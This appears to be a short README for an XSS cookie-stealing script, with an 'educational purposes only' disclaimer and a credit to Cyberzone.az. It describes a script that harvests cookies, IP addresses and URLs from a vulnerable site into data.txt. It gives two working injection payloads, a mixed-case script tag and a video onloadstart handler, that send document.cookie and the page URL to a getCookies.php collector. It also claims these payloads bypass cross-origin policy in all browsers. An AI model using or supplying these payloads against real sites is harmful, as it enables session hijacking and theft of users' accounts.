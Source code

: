<h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>
<sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>
<video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>

From: Cyberzone.az